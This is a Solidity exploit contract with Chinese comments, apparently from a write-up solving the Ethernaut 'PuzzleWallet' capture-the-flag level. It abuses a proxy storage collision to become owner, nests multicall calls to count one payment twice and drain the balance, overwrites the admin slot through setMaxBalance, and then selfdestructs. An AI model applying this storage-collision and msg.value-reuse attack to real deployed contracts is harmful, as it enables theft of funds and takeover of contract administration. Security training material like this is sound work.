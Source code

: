 自动化脚本：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr) public payable {
        PuzzleProxy pp = PuzzleProxy(addr);

        pp.proposeNewAdmin(address(this));
        pp.addToWhitelist(address(this));

        // deposit的calldata
        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSignature("deposit()");

        // multicall的calldata
        bytes[] memory multicall_data = new bytes[](2);
        multicall_data[0] = multicall_data[1] = abi.encodeWithSignature("multicall(bytes[])", deposit_data);

        // 调用multicall
        pp.multicall{value: 0.001 ether}(multicall_data);

        // 取款
        pp.execute(msg.sender, 0.002 ether, "");

        require(address(pp).balance==0, "balance not 0");

        // 设置admin
        pp.setMaxBalance(uint256(uint160(msg.sender)));

        require(pp.admin() == msg.sender, "set error");

        selfdestruct(payable(msg.sender));
    }
}
```

